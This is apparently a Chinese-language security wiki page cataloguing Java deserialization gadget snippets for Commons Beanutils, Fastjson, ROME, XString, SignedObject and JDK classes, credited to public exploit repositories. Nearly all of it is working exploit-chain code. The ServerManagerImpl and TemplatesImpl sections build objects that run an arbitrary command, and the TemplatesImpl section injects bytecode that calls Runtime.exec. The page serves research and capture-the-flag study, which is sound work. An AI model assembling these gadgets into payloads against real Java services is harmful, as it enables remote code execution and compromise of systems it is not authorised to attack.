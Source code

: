 # Java 反序列化 Gadget


### deserialize2Getter

??? info "Commons Beanutils (from [Eki-marshalexp](https://github.com/EkiXu/marshalexp))"
    ```java
    public static PriorityQueue deserialize2Getter(Object obj,String getterName) throws Exception{
        final BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        // create queue with numbers and basic comparator
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
        // stub data for replacement later
        queue.add("1");
        queue.add("1");

        // switch method called by comparator
        ReflectUtils.setFieldValue(comparator, "property", getterName);

        // switch contents of queue
        final Object[] queueArray = (Object[]) ReflectUtils.getFieldValue(queue, "queue");
        queueArray[0] = obj;
        queueArray[1] = obj;
        return queue;
    }
    ```

### toString2Getter

??? info "Fastjson (from [Eki-marshalexp](https://github.com/EkiXu/marshalexp))"
    ```java
    public static JSONObject toString2Getter(Object obj){
        JSONObject gadget = new JSONObject();
        gadget.put("eki",obj);
        return gadget;
    }
    ```

??? info "rome/rometools (from [Eki-marshalexp](https://github.com/EkiXu/marshalexp))"
    ```java
    public static ObjectBean toString2Getter(Class<?> clz, Object o){
    //        ToStringBean tb = new ToStringBean(clz, o);
    //        EqualsBean eb = new EqualsBean(ToStringBean.class, tb);
        ObjectBean tb = new ObjectBean(clz,o);
        ObjectBean eb = new ObjectBean(ObjectBean.class,tb);
        return eb;
    }
    ```

### deserialize2ToString
??? info "BadAttributeValueExpException (from [Eki-marshalexp](https://github.com/EkiXu/marshalexp))"
    ```java
    public static BadAttributeValueExpException deserialize2ToString(Object poc) throws Exception {
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        ReflectUtils.setFieldValue(badAttributeValueExpException,"val",poc);
        return badAttributeValueExpException;
    }
    ```

??? info "XString (from [Eki-marshalexp](https://github.com/EkiXu/marshalexp))"
    准确来说是 `hashCode2ToString`。
    ```java
    public static HashMap deserialize2ToString(Object obj) throws Exception{
        XString xString = new XString("Eki");

        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("yy",obj);
        map1.put("zZ",xString);

        map2.put("yy",xString);
        map2.put("zZ",obj);

        HashMap gadget = GHashMap.deserialize2HashCode(map1,map2);
        return gadget;
    }
    ```


### getter2RCE
??? info "JDK - ServerManagerImpl  (from [Eki-marshalexp](https://github.com/EkiXu/marshalexp))"
    ```java
    public static ServerManagerImpl getter2RCE(String cmd) throws Exception {
        ServerTableEntry entry = (ServerTableEntry) ReflectUtils.forceNewInstance(ServerTableEntry.class);
        ReflectUtils.setFieldValue(entry,"activationCmd",cmd);
        ReflectUtils.setFieldValue(entry,"state",2);
        ReflectUtils.setFieldValue(entry, "process", new Process() {
            @Override
            public OutputStream getOutputStream() {
                return null;
            }

            @Override
            public InputStream getInputStream() {
                return null;
            }

            @Override
            public InputStream getErrorStream() {
                return null;
            }

            @Override
            public int waitFor() throws InterruptedException {
                return 0;
            }

            @Override
            public int exitValue() {
                return 0;
            }

            @Override
            public void destroy() {

            }
        });
        ServerManagerImpl obj = (ServerManagerImpl) ReflectUtils.forceNewInstance(ServerManagerImpl.class);
        HashMap serverTable = new HashMap<>(256);
        serverTable.put(1,entry);
        ReflectUtils.setFieldValue(obj,"serverTable",serverTable);
        return obj;
    }
    ```
??? info "JDK - TemplatesImpl (from [Bridge-wiki](https://github.com/KingBridgeSS/wiki))"
    ```java
    TemplatesImpl templates = new TemplatesImpl();
    ClassPool classPool = ClassPool.getDefault();
    classPool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
    CtClass ctClass = classPool.makeClass("Evil");
    ctClass.setSuperclass(classPool.get(AbstractTranslet.class.getName()));
    String shell = "java.lang.Runtime.getRuntime().exec(\"calc\");";
    ctClass.makeClassInitializer().insertBefore(shell);

    byte[] shellCode = ctClass.toBytecode();
    byte[][] targetByteCode = new byte[][]{shellCode};

    Class c1 = templates.getClass();
    Field _name = c1.getDeclaredField("_name");
    Field _bytecode = c1.getDeclaredField("_bytecodes");
    Field _tfactory = c1.getDeclaredField("_tfactory");
    _name.setAccessible(true);
    _bytecode.setAccessible(true);
    _tfactory.setAccessible(true);
    _name.set(templates, "");
    _bytecode.set(templates, targetByteCode);
    _tfactory.set(templates, new TransformerFactoryImpl());
    ```

??? info "UnixPrintServiceLookup"
    仅在 Linux 环境低jdk版本下有

### getter2Deserialize
??? info "JDK - SignedObject (from [Eki-marshalexp](https://github.com/EkiXu/marshalexp))"
    ```java
    public static java.security.SignedObject getter2Deserialize(Object poc) throws Exception{

    //Create a key
        KeyPairGenerator keyGen = KeyPairGenerator.getInstance("DSA", "SUN");
        SecureRandom random = SecureRandom.getInstance("SHA1PRNG", "SUN");
        keyGen.initialize(1024, random);
    // create a private key
        PrivateKey signingKey = keyGen.generateKeyPair().getPrivate();
    // create a Signature
        Signature signingEngine = Signature.getInstance("DSA");
        signingEngine.initSign(signingKey);
    // sign our object
        SignedObject so = new SignedObject((Serializable) poc, signingKey, signingEngine);
        return so;
    }
    ```